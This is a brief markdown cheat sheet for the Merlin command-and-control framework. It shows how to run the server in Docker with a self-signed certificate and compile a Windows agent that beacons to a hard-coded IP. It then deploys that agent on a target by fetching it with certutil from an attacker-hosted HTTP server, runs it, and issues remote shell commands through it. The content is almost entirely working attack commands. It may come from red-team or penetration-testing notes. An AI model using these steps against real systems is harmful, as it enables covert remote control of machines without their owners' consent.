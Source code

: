 #### 1. About

- URL: `https://github.com/Ne0nd0g/merlin`
- Go tool for multi-platform CC server


#### 2. Setup server
```
# docker run --name merlin --rm -it -v /tmp/merlin:/tmp/merlin -p443:443 golang
# go get github.com/Ne0nd0g/merlin 2>/dev/null
# ln -s $GOPATH/src/github.com/Ne0nd0g/merlin /merlin
# cd /merlin/data/x509/
# openssl req -x509 -days 7 -newkey rsa:4096 -sha256 -nodes -keyout server.key -out server.crt -subj "/CN=LOL"
# cd /merlin && go run cmd/merlinserver/main.go -i 0.0.0.0
```


#### 3. Setup agent
```
# docker exec -it merlin bash
# cd /merlin/cmd/merlinagent
# GOOS=windows GOARCH=386 go build -ldflags "-X main.url=https://192.168.9.11" -o /tmp/merlin/agent.exe main.go
```
Note: `https://github.com/Ne0nd0g/merlin/blob/master/data/bin/README.MD`


#### 4. Example

1. Deploy
```
# cd /tmp/merlin && python -m SimpleHTTPServer 8888
C:\Windows\Temp>certutil -urlcache -split -f http://192.168.9.11:8888/agent.exe agent.exe
C:\Windows\Temp>cmd.exe /c agent.exe
```

2. Run
```
Merlin[agent][2d0f28a4-e2f0-4f9a-9e2d-1438ab04fe70]» shell systeminfo
```

